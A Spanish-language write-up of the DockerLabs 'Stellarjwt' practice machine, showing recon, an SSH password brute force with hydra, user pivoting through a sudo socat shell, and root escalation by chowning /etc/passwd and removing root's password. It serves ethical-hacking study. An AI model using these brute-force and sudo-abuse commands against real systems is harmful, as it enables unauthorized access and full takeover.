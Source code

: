 ```yaml
---
title: Stellarjwt
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-03
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-stellarjwt/stellarjwt_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - ssh
  - http
  - tcp
  - fuzzing web
  - data leaks
  - password attacks
  - sudo abuse
  - web analysis
  - data leak exploitation
  - user pivoting
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/stellarjwt:-$ ping -c 1 127.17.0.2                 
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.065 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.065/0.065/0.065/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/stellarjwt:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv 127.17.0.2 -n -Pn -oG nmap1
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///        Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/stellarjwt:-$ sudo nmap -sCV -p22,80 -vvv 127.17.0.2 -oN nmap2
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 13:fd:a1:b2:31:9d:ea:33:a1:43:af:44:20:3a:12:12 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEOj/HRDdBjMOnahF64+funtJuqp9p12aIRd36Qc/LhxP96Vzgbb3TBmmlikTqGqRVAlF24M53fdp9pABYc9Z5c=
|   256 a0:4f:c4:a9:00:af:cb:78:28:fd:94:c0:86:28:dc:a1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBQCVaYlLtT3rl2JLsXE13whHLmBXeknIoPXXK13Du5A
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: NASA Hackeada
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/dockerlabs/stellarjwt:-$ whatweb 127.17.0.2
http://127.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[127.17.0.2], Title[NASA Hackeada]
```

---
## Web Analysis & Data Leak Exploitation

Encuentro una página web estática con una simple pregunta que dice,
"¿Qué astrónomo alemán descubrió Neptuno?".

![](assets/img/dockerlabs-writeup-stellarjwt/stellarjwt1_1.png)

Tras una rápida búsqueda, obtengo la respuesta.

![](assets/img/dockerlabs-writeup-stellarjwt/stellarjwt1_2.png)

Analizo la web en busca de directorios adicionales.

```terminal
/home/kali/Documents/dockerlabs/stellarjwt:-$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://127.18.0.2/
/universe             (Status: 301) [Size: 311] [--> http://127.18.0.2/universe/]
```

Identifico un nuevo directorio llamado `/universe`, pero aparentemente no contiene información visible a simple vista.

![](assets/img/dockerlabs-writeup-stellarjwt/stellarjwt1_3.png)
![](assets/img/dockerlabs-writeup-stellarjwt/stellarjwt1_4.png)

Sin embargo, inspeccionando el código fuente, encuentro un comentario interesante que incluye un token JWT.

```terminal
/home/kali/Documents/dockerlabs/stellarjwt:-$ echo 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlciI6Im5lcHR1bm8iLCJpYXQiOjE1MTYyMzkwMjJ9.t-UG_wEbJdc_t0spVGKkNaoVaOeNnQwzvQOfq0G3PcE' > hash.txt

/home/kali/Documents/dockerlabs/stellarjwt:-$ hashcat --show hash.txt
    # | Name                                            | Category
======+=================================================+==============================
16500 | JWT (JSON Web Token)                            | Network Protocol
```

Decodifico el JWT con [cyberchef](https://cyberchef.org) y revelo un campo que define un usuario.

![](assets/img/dockerlabs-writeup-stellarjwt/stellarjwt2_1.png)

Con el usuario identificado, creo un diccionario personalizado basándome en términos relacionados con la temática de la maquina. Y utilizo hydra para realizar un ataque de fuerza bruta contra el servicio SSH del servido.

```terminal
/home/kali/Documents/dockerlabs/stellarjwt:-$ grep -i 'neptuno\|nasa\|Johann\|Gottfried\|Galle' /usr/share/wordlists/rockyou.txt > nasa_creds.txt

/home/kali/Documents/dockerlabs/stellarjwt:-$ sudo hydra -l neptuno -P nasa_creds.txt ssh://172.17.0.2 -t 60 -I
```

![](assets/img/dockerlabs-writeup-stellarjwt/stellarjwt2_2.png)

El ataque tiene éxito y obtengo las credenciales SSH.

```terminal
/home/kali/Documents/dockerlabs/stellarjwt:-$ ssh neptuno@127.17.0.2
neptuno@127.17.0.2's password: Gottfried

neptuno@kali:~$ id
uid=1001(neptuno) gid=1001(neptuno) groups=1001(neptuno),100(users)
```

---
## User Pivoting 1

```terminal
neptuno@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
neptuno:x:1001:1001:neptuno,,,:/home/neptuno:/bin/bash
nasa:x:1002:1002:NASA,,,:/home/nasa:/bin/bash
elite:x:1000:1000:elite,,,:/home/elite:/bin/bash
```

En el directorio personal de `neptuno`, encuentro un archivo de texto llamado `.carta_a_la_NASA.txt`.

```terminal
neptuno@kali:~$ cat .carta_a_la_NASA.txt
```

![](assets/img/dockerlabs-writeup-stellarjwt/stellarjwt3_1.png)

Dentro del archivo, se menciona a la NASA o al usuario `nasa` junto con una posible contraseña `Eisenhower` la cual es valida.

```terminal
neptuno@kali:~$ su nasa
Password: Eisenhower

nasa@kali:~$ id
uid=1002(nasa) gid=1002(nasa) groups=1002(nasa),100(users)
```

---
## User Pivoting 2

Reviso los permisos del usuario `nasa`.

```terminal
nasa@kali:~$ sudo -l
Matching Defaults entries for nasa on kali:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User nasa may run the following commands on kali:
    (elite) NOPASSWD: /usr/bin/socat
```

El resultado indica que `nasa` puede ejecutar `socat` como el usuario `elite` sin necesidad de contraseña.

Consulto la página de [GTFOBins](https://gtfobins.github.io/gtfobins/socat/#sudo>) para identificar como ganar acceso al usuario `elite`.

```terminal
nasa@kali:~$ sudo -u elite /usr/bin/socat stdin exec:/bin/sh
2025/01/11 20:58:12 socat[203] W address is opened in read-write mode but only supports read-only

id
uid=1000(elite) gid=1000(elite) groups=1000(elite),100(users)
```

---
## Privilege Escalation

```terminal
script /dev/null -c bash 
```

Verifico los permisos del usuario `elite`.

```terminal
elite@kali:~$ sudo -l
Matching Defaults entries for elite on kali:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User elite may run the following commands on kali:
    (root) NOPASSWD: /usr/bin/chown
```

El usuario `elite` tiene permisos para ejecutar el comando `chown` como `root` sin necesidad de contraseña.

<https://gtfobins.github.io/gtfobins/chown/#sudo>

Utilizo `chown` para cambiar la propiedad del directorio `/etc` a `elite`.

```terminal
elite@kali:~$ sudo -u root /usr/bin/chown elite:elite /etc

elite@kali:~$ ls -l /
drwxr-xr-x   1 elite elite 4096 Jan 11 17:39 etc
```

Modifico la propiedad del archivo `/etc/passwd` para permitir su edición.

```terminal
elite@kali:~$ sudo -u root /usr/bin/chown elite:elite /etc/passwd

elite@kali:~$ ls -l /etc/passwd
-rw-r--r-- 1 elite elite 1300 Oct 23 21:11 /etc/passwd
```

Edito el archivo `/etc/passwd` para eliminar las contraseñas `x` del usuario `root`, lo que me permite acceder sin necesidad de autenticación.

```terminal
elite@kali:~$ sed -i 's/x//g' /etc/passwd

elite@kali:~$ su root

root@kali:/home/elite# id
uid=0(root) gid=0(root) groups=0(root)
```

